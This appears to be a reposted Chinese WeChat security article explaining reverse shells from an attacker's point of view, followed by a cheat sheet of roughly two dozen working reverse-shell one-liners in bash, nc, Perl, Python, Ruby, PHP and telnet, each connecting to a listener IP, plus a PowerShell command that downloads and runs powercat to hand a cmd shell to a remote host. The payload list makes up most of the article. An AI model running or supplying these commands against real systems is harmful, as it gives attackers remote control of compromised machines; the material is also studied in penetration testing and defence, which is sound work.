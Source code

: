 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/zuWixh1e6edKe74H5bIURw)

1.   关于反弹 shell
---------------

      就是控制端监听在某 TCP/UDP 端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell 与 telnet，ssh 等标准 shell 对应，本质上是网络概念的客户端与服务端的角色反转。  

2.   反弹 shell 的原因
-----------------

        通常用于被控端因防火墙受限、权限不足、端口被占用等情形

    假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标 ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面，web 服务，ssh，telnet 等等，都是正向连接。那么什么情况下正向连接不太好用了呢？

      1）某客户机中了你的网马，但是它在局域网内，你直接连接不了。

      2）它的 ip 会动态改变，你不能持续控制。

      3）由于防火墙等限制，对方机器只能发送请求，不能接收请求。

    4）对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知，所以建立一个服务端，让恶意程序主动连接，才是上策。  

3. 反弹 shell 集锦
--------------

```
@bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
@/bin/bash -i > /dev/tcp/173.214.173.151/8080 0<&1 2>&1
@/bin/sh | nc 10.104.11.107 9007
 
@perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.104.11.107:9006");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
@perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
@perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.104.11.107:9009");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
 
@python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
@python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('10.104.11.107',9013))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
 
@ruby -rsocket -e'f=TCPSocket.open("10.104.11.107",9009).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
@ruby -rsocket -e 'c=TCPSocket.new("10.104.11.107","9010");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
@ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.104.11.107","9011");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
     
@mknod backpipe p && telnet 173.214.173.151 8080 0backpipe
 
@php -r '$sock=fsockopen("10.104.11.107",9012);exec("/bin/sh -i <&3 >&3 2>&3");'
 
@rm -f /tmp/p; mknod /tmp/p p && nc 10.104.11.107 9008 0/tmp/  
@rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
 
#本地监听两个端口,通过管道,一处输入,一处输出   
@nc 10.104.11.107 1234|/bin/sh|nc 10.104.11.107 9999
@shell.py
@shell.pl
@shell2.pl
 
1.perl -MIO -e '$p=fork;exit,if($p); $c=new IO::Socket::INET(PeerAddr,"10.104.11.107:9002");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
2.rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.104.11.107 9003 >/tmp/f
3.mknod backpipe p && telnet 10.104.11.107 9005 0backpipe
4.perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.104.11.107:9006");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
5./bin/sh | nc 10.104.11.107 9007
6.rm -f /tmp/p; mknod /tmp/p p && nc 10.104.11.107 9008 0/tmp/
7.ruby -rsocket -e 'c=TCPSocket.new("10.104.11.107","9010");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
8.ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.104.11.107","9011");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
9.python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('10.104.11.107',9013))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")
```

```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 1.1.1.1 -p 443 -e cmd
```

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“如侵权请私聊公众号删文”

****扫描关注 LemonSec****  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icncXiavFRorU03O5AoZQYznLCnFJLs8RQbC9sltHYyicOu9uchegP88kUFsS8KjITnrQMfYp9g2vQfw/640?wx_fmt=png)

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**